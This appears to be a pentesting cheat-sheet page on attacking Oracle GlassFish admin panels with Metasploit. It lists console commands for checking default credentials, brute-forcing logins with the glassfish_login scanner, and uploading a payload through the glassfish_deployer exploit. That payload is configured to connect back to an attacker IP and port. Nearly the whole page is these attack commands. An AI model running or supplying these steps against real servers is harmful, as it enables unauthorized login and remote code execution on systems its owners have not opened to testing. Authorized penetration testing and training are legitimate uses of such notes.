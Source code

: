 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - web-panel
  - glassfish
  - metasploit-framework
---
```

# Metasploit

## 01 - Default Credentials

```
msf > use auxiliary/scanner/http/glassfish_login

msf auxiliary(scanner/http/glassfish_login) > options

msf auxiliary(scanner/http/glassfish_login) > set rhost <target_IP>

msf auxiliary(scanner/http/glassfish_login) >

msf auxiliary(scanner/http/glassfish_login) > run
```

## 02 - Bruteforce

```
msf > use auxiliary/scanner/http/glassfish_login

msf auxiliary(scanner/http/glassfish_login) > set rhost <target_IP>

msf auxiliary(scanner/http/glassfish_login) >

msf auxiliary(scanner/http/glassfish_login) > run
```

## 03 - Upload Payload

```
msf > use exploit/multi/http/glassfish_deployer

msf exploit(multi/http/glassfish_deployer) > options

msf exploit(multi/http/glassfish_deployer) > set lhost <attacker_IP>

msf exploit(multi/http/glassfish_deployer) > set lport <attacker_PORT>

msf exploit(multi/http/glassfish_deployer) > set rhost <target_IP>

msf exploit(multi/http/glassfish_deployer) > run username=<username> password=<password>
```

---
## References

- [Rapid7: Metasploit Framework - Glassfish Deployer Exploit Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/glassfish_deployer.md)